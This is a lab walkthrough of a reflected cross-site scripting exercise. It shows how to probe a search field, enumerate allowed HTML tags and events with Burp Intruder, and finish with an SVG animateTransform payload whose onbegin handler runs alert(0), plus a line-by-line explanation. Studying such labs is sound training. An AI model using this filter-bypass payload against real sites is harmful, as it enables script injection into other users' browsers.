 # Lab: Reflected XSS with some SVG markup allowed

> Lab Objective: perform a cross-site scripting attack that calls the `alert()` function.

- Firstly, Enter simple input like this `test'"><` in search functionality, then search for the input in the Source Code.

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When viewing the source code, you'll see that `'"><` characters are displayed and interpreted as intentioned.
  ![1st Screenshot](./Photos/1.png)

- Therefore, try injecting this payload `<script>alert(0)</script>`, but the script tag is not allowed.
  ![2nd Screenshot](./Photos/2.png)
  ![3rd Screenshot](./Photos/3.png)

- So, Use Burp Suite Intruder (or run a python script), when using intruder you'll see that there are 4 tags allowed.
  ![4th Screenshot](./Photos/4.png)

- But when using one of the allowed tags like this `<image src=x onerror=alert()>`, You'll see that `onerror` event isn't allowed.
  ![5th Screenshot](./Photos/5.png)

- Do the same thing you did with html tags, You'll configure that `onbegin` event is the only allowed event.

- Therefore I'll use it with `svg` and `animatetransform` tags (which are allowed).

- The Crafted Payload:

```html
<svg>
  <rect x="30" y="30" height="110" width="110">
    <animateTransform begin="0s" onbegin="alert(0)" />
  </rect>
</svg>
```

- The `alert(0)` is executed and the lab is solved successfully.
  ![6th Screenshot](./Photos/6.png)
  ![7th Screenshot](./Photos/7.png)

---

## Explanation:

- Code Snippet:

```html
<svg>
  <rect x="30" y="30" height="110" width="110">
    <animateTransform begin="0s" onbegin="alert(0)" />
  </rect>
</svg>
```

- Code Explanation:
  - `<svg>`: Defines an SVG graphic.
  - `<rect>`: Draws a rectangle at coordinates (30,30) with width/height of 110.
  - `<animateTransform>`: An SVG animation element, typically for transforming (e.g., rotating) the rectangle.
  - `begin="0s"`: Starts the animation immediately.
  - `onbegin="alert(0)"`: Triggers when the animation starts, executing the JavaScript alert(0), which displays a pop-up with "0".

---
